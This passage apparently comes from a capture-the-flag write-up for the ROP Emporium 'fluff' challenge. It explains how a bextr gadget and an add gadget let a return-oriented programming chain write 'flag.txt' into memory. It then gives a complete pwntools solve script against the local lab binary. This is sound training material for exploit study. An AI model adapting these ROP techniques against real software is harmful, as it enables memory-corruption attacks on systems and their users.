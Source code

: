 This is where the "questionable gadgets" come in. If we pop the correct values into `rcx` and `rdx`, then the instruction `bextr rbx, rcx, rdx` allows us to write to `rbx`.

![](/assets/images/ropemporium/fluff_questionable_gadgets.png)

[Felix Cloutier's description](https://www.felixcloutier.com/x86/bextr) of the `bextr` instruction tells us that it does the following:

> Extracts contiguous bits from the first source operand (the second operand) using an index value and length value specified in the second source operand (the third operand). Bit 7:0 of the second source operand specifies the starting bit position of bit extraction. A START value exceeding the operand size will not extract any bits from the second source operand. Bit 15:8 of the second source operand specifies the maximum number of bits (LENGTH) beginning at the START position to extract. 

In our case, the destination register is `rbx`. With the right choice of values in `rcx` and `rdx`, we can write an arbitrary value to `rbx`. The first source operand (`rcx`) should contain the value that we want to write to `rbx`. The second source operand (`rdx`) should contain the value 0 in bits 7:0 (to specify that we're starting the extraction at position 0) and the value 64 in bits 15:8 (to specify that we want to extract all 64 bits).

Note that our gadget adds `0x3ef2` to `rcx` before performing the `bextr` operation. To correct for this, we can simply subtract `0x3ef2` from our desired value before passing it in.

We have now found a way to write to memory. We can use `bextr` to write to rbx, then write that value to memory with the `add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret` gadget. From there, the solution proceeds in the same way as the `write4` challenge.

Solve script:

```python
from pwn import *

bextr_addr = 0x40062a
pop_rdi = 0x4006a3 # pop rdi ; ret

pop_rbp = 0x400588 # pop rbp ; ret
add_rbp = 0x4005e8 # add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret

data_addr = 0x601028
print_file = 0x400620
	
def write_value(value, data_addr):
	payload = p64(pop_rdi) + p64(data_addr)
	payload += p64(bextr_addr) + p64(64 << 8) + p64(int.from_bytes(value, 'little') - 0x3ef2)  # use bextr to get value into rbx
	payload += p64(pop_rbp) + p64(data_addr + 0x3d)
	payload += p64(add_rbp)
	
	return payload

chal = process("./fluff")
send_str = b'a'*40
send_str += write_value(b'flag', data_addr)
send_str += write_value(b'.txt', data_addr+4) # we can only write 32 bits at a time, so we need 2 writes
send_str += p64(pop_rdi) + p64(data_addr) + p64(print_file)

print(chal.recvuntil(b'>'))
chal.sendline(send_str)
```